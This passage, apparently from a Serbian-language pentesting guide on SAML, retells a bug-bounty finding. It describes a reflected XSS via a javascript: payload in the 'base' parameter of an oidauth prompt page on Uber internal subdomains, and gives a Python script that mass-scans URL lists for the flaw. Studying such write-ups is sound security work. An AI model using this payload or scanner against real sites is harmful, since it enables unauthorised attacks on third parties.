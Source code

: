 ```python
# This is a simplified representation. In a real scenario, additional steps for handling the SAML Response would be required.
try:
# Code to send the SAML Response to SP-Target would go here
return "SAML Response successfully redirected to SP-Target."
except Exception as e:
return f"Failed to redirect SAML Response: {e}"
```

## XSS u funkcionalnosti odjave

Originalno istraživanje može se pronaći na [ovom linku](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/).

Tokom procesa brute force pretrage direktorijuma, otkrivena je stranica za odjavu na sledećoj putanji:

```
https://carbon-prototype.uberinternal.com:443/oidauth/logout
```

Prilikom pristupa ovom linku, došlo je do preusmeravanja na:

```
https://carbon-prototype.uberinternal.com/oidauth/prompt?base=https%3A%2F%2Fcarbon-prototype.uberinternal.com%3A443%2Foidauth&return_to=%2F%3Fopenid_c%3D1542156766.5%2FSnNQg%3D%3D&splash_disabled=1
```

Ovo je otkrilo da parametar `base` prihvata URL. Razmišljajući o tome, javila se ideja da se URL zameni sa `javascript:alert(123);` u pokušaju da se pokrene XSS (Cross-Site Scripting) napad.

### Masovna eksploatacija

[Iz ovog istraživanja](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/):

Alat [**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor) je korišćen za analizu poddomena `uberinternal.com` koji koriste istu biblioteku. Nakon toga, razvijen je skript koji cilja stranicu `oidauth/prompt`. Ovaj skript testira XSS (Cross-Site Scripting) unosom podataka i proverava da li se ti podaci reflektuju u izlazu. U slučajevima kada se unos zaista reflektuje, skript označava stranicu kao ranjivu.

```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from colorama import init ,Fore, Back, Style
init()

with open("/home/fady/uberSAMLOIDAUTH") as urlList:
for url in urlList:
url2 = url.strip().split("oidauth")[0] + "oidauth/prompt?base=javascript%3Aalert(123)%3B%2F%2FFady&return_to=%2F%3Fopenid_c%3D1520758585.42StPDwQ%3D%3D&splash_disabled=1"
request = requests.get(url2, allow_redirects=True,verify=False)
doesit = Fore.RED + "no"
if ("Fady" in request.content):
doesit = Fore.GREEN + "yes"
print(Fore.WHITE + url2)
print(Fore.WHITE + "Len : " + str(len(request.content)) + "   Vulnerable : " + doesit)
```
